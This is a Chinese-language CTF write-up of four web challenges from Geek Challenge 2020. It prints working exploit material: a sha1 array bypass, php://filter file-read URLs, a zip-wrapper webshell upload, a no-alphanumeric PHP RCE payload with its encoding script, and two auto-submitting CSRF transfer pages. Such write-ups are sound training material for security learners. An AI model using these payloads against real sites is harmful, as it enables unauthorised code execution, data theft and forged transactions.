---
title: "极客大挑战2020wp--web(已做完)"
date: 2025-03-24T20:40:24+08:00
summary: "极客大挑战2020wp"
url: "/posts/极客大挑战2020wp-web(已做完)/"
categories:
  - "赛题wp"
tags:
  - "极客大挑战2020"
draft: false
---

# web-Welcome

## #请求方法+sha1哈希绕过



打开是405错误，抓包后看到是Method Not Allowed



搜索后发现是请求方式错误，换成POST传参就可以拿到源码了

```php
<?php
error_reporting(0);
if ($_SERVER['REQUEST_METHOD'] !== 'POST') {
header("HTTP/1.1 405 Method Not Allowed");
exit();
} else {
    
    if (!isset($_POST['roam1']) || !isset($_POST['roam2'])){
        show_source(__FILE__);
    }
    else if ($_POST['roam1'] !== $_POST['roam2'] && sha1($_POST['roam1']) === sha1($_POST['roam2'])){
        phpinfo();  // collect information from phpinfo!
    }
}
```

前面都是刚刚遇到的，我们只需要关注最后一个else if语句就可以了

一个简单的sha1哈希绕过，传数组就可以了



然后在里面查找flag就可以了

# web-Myblog

## #任意文件读取+zip伪协议文件上传



可以看到有登录入口，测试一下



输入1和1后页面显示



可以看到url中有admin和user，应该是需要管理员登陆，我们先fuzz一下sql注入什么的，但是发现打不进去，后来发现在url中有?page=login参数，猜测可能是任意文件读取漏洞，试一下

```php
/?page=php://filter/read=convert.base64-encode/resource=login.php
```

没读出来，但是根据之前的url猜测是闭合了php

```
/?page=php://filter/read=convert.base64-encode/resource=login
```

```html
//login.php
<!DOCTYPE html>
<html>
  <head>
    <meta charset="utf-8">
    <meta http-equiv="X-UA-Compatible" content="IE=edge">
    <title>Login</title>
    <meta name="description" content="">
    <meta name="viewport" content="width=device-width, initial-scale=1, shrink-to-fit=no">
    <meta name="robots" content="all,follow">
    <link rel="stylesheet" href="https://ajax.aspnetcdn.com/ajax/bootstrap/4.2.1/css/bootstrap.min.css">
    <link rel="stylesheet" href="css/style.default.css" id="theme-stylesheet">
  </head>
  <body>
    <div class="page login-page">
      <div class="container d-flex align-items-center">
        <div class="form-holder has-shadow">
          <div class="row">
            <!-- Logo & Information Panel-->
            <div class="col-lg-6">
              <div class="info d-flex align-items-center">
                <div class="content">
                  <div class="logo">
                    <h1>欢迎登录</h1>
                  </div>
                  <p>—— 博客后台 ——</p>
                </div>
              </div>
            </div>
            <!-- Form Panel    -->
            <div class="col-lg-6 bg-white">
              <div class="form d-flex align-items-center">
                <div class="content">
                  <form method="post" action="/?page=admin/user" class="form-validate" id="loginFrom">
                    <div class="form-group">
                      <input id="login-username" type="text" name="username" required data-msg="请输入用户名" placeholder="用户名" class="input-material">
                    </div>
                    <div class="form-group">
                      <input id="login-password" type="password" name="password" required data-msg="请输入密码" placeholder="密码" class="input-material">
                    </div>
                    <button id="login" type="submit" class="btn btn-primary">登录</button>
                    <div style="margin-top: -40px;"> 
                    	<!-- <input type="checkbox"  id="check1"/>&nbsp;<span>记住密码</span>
                    	<input type="checkbox" id="check2"/>&nbsp;<span>自动登录</span> -->
                    	<div class="custom-control custom-checkbox " style="float: right;">
											    <input type="checkbox" class="custom-control-input" id="check2" >
											    <label class="custom-control-label" for="check2">自动登录</label>
											</div>
											<div class="custom-control custom-checkbox " style="float: right;">
											    <input type="checkbox" class="custom-control-input" id="check1" >
											    <label class="custom-control-label" for="check1">记住密码&nbsp;&nbsp;</label>
											</div> 
                    </div>
                  </form>
                  <br />
                  <small>没有账号?</small><a href="#" class="signup">&nbsp;不给注册</a>
                </div>
              </div>
            </div>
          </div>
        </div>
      </div>
    </div>
    <!-- JavaScript files-->
    <script src="https://libs.baidu.com/jquery/1.10.2/jquery.min.js"></script>
    <script src="https://ajax.aspnetcdn.com/ajax/bootstrap/4.2.1/bootstrap.min.js"></script>
    <script src="vendor/jquery-validation/jquery.validate.min.js"></script><!--表单验证-->
    <!-- Main File-->
    <script src="js/front.js"></script>
  </body>
</html>

<?php
require_once("secret.php");
mt_srand($secret_seed);
$_SESSION['password'] = mt_rand();
?>

```

```php
//secret.php
<?php
$secret_seed = mt_rand();
?>
```

```php
//admin/user
<?php
error_reporting(0);
session_start();
$logined = false;
if (isset($_POST['username']) and isset($_POST['password'])){
	if ($_POST['username'] === "Longlone" and $_POST['password'] == $_SESSION['password']){  // No one knows my password, including myself
		$logined = true;
		$_SESSION['status'] = $logined;
	}
}
if ($logined === false && !isset($_SESSION['status']) || $_SESSION['status'] !== true){
    echo "<script>alert('username or password not correct!');window.location.href='index.php?page=login';</script>";
	die();
}
?>
```

最后一个是我没想到的，尽管看着不像文件，但是还是读取出来了emm

这里我们分析一下代码，需要让username=Longlone，然后密码的话是session中password的值，也就是经过随机后的值，那我们怎么去拿到password的值呢？

碰撞基本上是不可能的，我们把cookie中的值删除，令password为空，那我们的username对应的password为空的话就可以绕过验证了，但是好像必须输入密码，那我们把密码对应的HTML中 required 属性规定必需在提交之前填写输入字段。直接找到它把它删了，然后就成功登录了




发现一个上传头像的地方，看看是不是文件上传漏洞

发现可以上传，那我们这里可以将php文件打包成zip，改后缀名为jpg，再利用`zip`伪协议进行读取。zip协议是可以解压缩jpg后缀的压缩包的。

先写一个木马文件，然后用zip压缩转成jpg文件后缀进行上传，上传成功后进行访问发现并不能看到图片(是因为我们这个文件是个压缩包，不是个正常的图片)



利用zip伪协议读取一下

zip:// + zip路径 + %23 + php文件名

这里用%23去把源码中自动接上的php后缀去掉，然后传入参数执行命令就可以了



# web-Rceme


打开是一个命令执行界面



可以看到里面有提示Do you know vim swp，意思是vim缓存信息泄露，访问.index.php.swp可以得到缓存文件，可以看到页面源码

```php
<?php
error_reporting(0);
session_start();
if(!isset($_SESSION['code'])){
        $_SESSION['code'] = substr(md5(mt_rand().sha1(mt_rand)),0,5);
        //获得验证数字
}
 
if(isset($_POST['cmd']) and isset($_POST['code'])){
 
        if(substr(md5($_POST['code']),0,5) !== $_SESSION['code']){
                
                die('<script>alert(\'Captcha error~\');history.back()</script>');
        }
        $_SESSION['code'] = substr(md5(mt_rand().sha1(mt_rand)),0,5);
        $code = $_POST['cmd'];
        if(strlen($code) > 70 or preg_match('/[A-Za-z0-9]|\'|"|`|\ |,|\.|-|\+|=|\/|\\|<|>|\$|\?|\^|&|\|/ixm',$code)){
                //修正符:x 将模式中的空白忽略; 
                die('<script>alert(\'Longlone not like you~\');history.back()</script>');
        }else if(';' === preg_replace('/[^\s\(\)]+?\((?R)?\)/', '', $code)){
                @eval($code);
                die();
        }
 
```

简单来说就是

1.code经过md5加密后的前5个字符要等于session 的code

2.cmd长度不能超过70且不能被正则匹配到

3.匹配括号内的内容替换成空格后结果为;

使用的方法就是无数字字母rce，如果是函数套用的话只能满足第三个条件而不能满足第二个条件，所以我们只能用无数字字母rce的方法去实现函数套用

无数字字母rce的话就是自增，取反，异或三种方法，但是自增的话可能满足不了长度的要求，异或的符号被过滤了，所以我们试一下取反去进行函数套用

首先要通过第一个判断句

## 哈希运算

```python
import hashlib#用于进行哈希运算。MD5 是一种常用的哈希算法之一。

for i in range(1,10000000000000):
    m=hashlib.md5(str(i).encode()).hexdigest()#计算字符串的 MD5 哈希值，并将结果转换为十六进制的字符串表示
    if m[0:5]=='cfc86':
        print(i)#如果找到符合条件的 i，则打印该整数。
        break
```

运行结果



可以得出252796的结果，也就是我们的code要传的参数，然后我们就用取反去进行rce

先试一下phpinfo()



在响应包中可以看到我们的php版本，在PHP7中支持这种调用方法，因此支持这么写('phpinfo')();例如

```
['phpinfo'][0]()
['phpinfo']{0}()
```

也都是可以的

```
phpinfo(): [~%8F%97%8F%96%91%99%90][~%CF]();
```

加这个[~%FF]只是因为php7的解析方式，当然换成其他的也可以例如[~%EF] [~%CF]



rce没成功，后面才知道是session的值交包后会更新，后面改了之后整了几次就整出来了



```
var_dump(getallheaders());
```

`getallheaders()` 函数用于获取当前请求的所有 HTTP 头信息。

因为有长度限制，不然想直接执行ls命令的函数套用来着

因为ua头可控，所以我们这里可以通过ua去进行rce

贴一个取反的脚本

## 取反脚本poc

```php
<?php
$ans1='getallheaders';//函数名
$data1=('~'.urlencode(~$ans1));//通过两次取反运算得到结果

echo ('('.$data1.')'.';');
```

payload就是

```
[~%89%9E%8D%A0%9B%8A%92%8F][~%CF]([~%98%9A%8B%9E%93%93%97%9A%9E%9B%9A%8D%8C][~%CF]());
user-agent: ls /
```

看看ua头在哪个位置，但是好像我的ua头不在第二个位置，所以网上的wp用var_dump(next(getallheaders());打不了，重开靶机后也是这样，反正思路是对的

# flagshop

## #CSRF跨站请求伪造

注册后登录在主页底下找到购买flag的按钮，但是显示钱不够


然后在转账里面看到转账的入口，试着给自己转钱但是不可行





后来看了wp才知道题目可以利用`CSRF`漏洞进行攻击，但是需要自己写一个页面让后台点击，接着会自动跳转到转账页面，让服务器以为是后台转账操作。

假如我们写了一个恶意页面并提交报告上传，后台就会点击我们的报告，而我们页面的内容会进行自动跳转到转账页面，那接下来我们就写一下我们自己的CSRF恶意网页(这里是用的bp里的CSRF的poc)

```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="http://52235d31-9522-47f0-9ea9-8508a7a151f0.node5.buuoj.cn:81/transfer.php" method="POST" enctype="multipart/form-data">//设置我们URL的表单提交
      <input type="hidden" name="target" value="1" />
       <!--创建输入控件的 HTML 标签，允许用户输入数据,但是type属性设置字段类型为hidden，表示字段隐藏，也就是说，用户无法直接看到或修改这个字段的值-->
      <input type="hidden" name="money" value="100000000000" />
      <input type="hidden" name="messages" value="1" />
      <input type="submit" value="Submit request" />
      <!--这里意味着当我们提交报告的时候后台点击报告后会自动利用管理员身份提交表单进行转账，并做了一个隐藏的行为-->
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>

```

```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://52235d31-9522-47f0-9ea9-8508a7a151f0.node5.buuoj.cn:81/transfer.php" method="POST" enctype="multipart/form-data">
      <input type="hidden" name="target" value="qwasd" />
      <input type="hidden" name="money" value="1000000000000000000000000000000000000000000000000000000" />
      <input type="hidden" name="messages" value="123" />
      <input type="submit" value="Submit request" id="onclick_1" />
    </form>
    <script type="text/javascript">
      document.getElementById("onclick_1").click();
    </script>
  </body>
</html>
```

